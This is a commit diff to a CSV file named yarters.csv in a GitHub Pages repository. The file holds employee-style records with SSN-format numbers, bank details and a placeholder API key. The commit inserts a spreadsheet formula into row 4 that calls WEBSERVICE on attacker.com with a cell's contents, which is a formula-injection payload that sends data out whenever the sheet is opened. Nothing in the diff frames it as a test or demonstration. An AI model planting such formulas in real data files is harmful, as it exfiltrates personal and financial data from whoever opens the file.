

Before and after one commit to Yarterss/yarterss.github.io, a CSV file: yarters.csv, drawn as a sheet; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update yarters.csv

```diff
--- a/yarters.csv
+++ b/yarters.csv
-row 4: 1003 | Bob Johnson | 333-44-5555 | 1982-11-02 | bob.johnson@examplecorp.local | 555-0103 | 88000 | 3456789012 | 021000021 | FAKE-API-KEY-003 | Internal Use Only
+row 4: 1003 | =WEBSERVICE("https://attacker.com/?data="&A1)
+row 5:  | 333-44-5555 | 1982-11-02 | bob.johnson@examplecorp.local | 555-0103 | 88000 | 3456789012 | 021000021 | FAKE-API-KEY-003 | Internal Use Only
```
